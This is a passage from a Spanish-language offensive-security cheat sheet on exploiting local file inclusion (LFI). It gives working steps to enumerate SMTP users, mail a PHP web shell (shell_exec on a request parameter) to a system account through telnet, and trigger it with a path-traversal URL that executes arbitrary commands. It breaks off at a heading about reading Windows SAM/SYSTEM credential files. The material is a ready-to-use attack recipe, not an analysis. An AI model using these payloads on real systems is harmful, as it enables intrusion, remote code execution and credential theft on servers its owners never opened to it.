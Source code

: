 `#` está codificado para `%23` evitar que el navegador lo reconozca como un fragmento.

### Mail PHP Execution

consiste en aprovechar la vulnerabilidad LFI para tras visualizar los usuarios en el recurso '**/etc/passwd**', poder visualizar sus correspondientes mails en '**/var/mail/usuario**'.

Es decir, suponiendo que tenemos nociones de que existe un usuario '**www-data**' sobre el sistema, en caso de contar con el servicio **smtp** corriendo, podemos "malformar" un mensaje para insertar código PHP y posteriormente apuntarlo desde el navegador.

En caso de no llegar a saber qué usuarios hay en el sistema, podemos hacer uso de la herramienta **smtp-user-enum** para enumerar usuarios sobre el servicio:

```bash
smtp-user-enum -M VRFY -U top_shortlist.txt -t 192.168.1.X
```

Obteniendo resultados similares al siguiente:

```bash
192.168.1.X: root exists
192.168.1.X: mysql exists
192.168.1.X: www-data exists
```

Ahora que sabemos que el usuario **www-data** existe, podemos hacer lo siguiente:

```bash
telnet 192.168.1.X 25

HELO localhost

MAIL FROM:<root>

RCPT TO:<www-data>

DATA

<?php

echo shell_exec($_REQUEST['cmd']);
?>
```

teniendo en cuenta que el mail ha sido enviado, tan sólo tendremos que hacer lo siguiente:

```bash
http://192.168.1.X/?page=../../../../../var/mail/www-data?cmd=comando-a-ejecutar
```

Y el navegador nos devolverá el output del comando aplicado a nivel de sistema.


### Via credentials file

La cosa es tener permisos de lectura en la SAM o SYSTEM en windows:
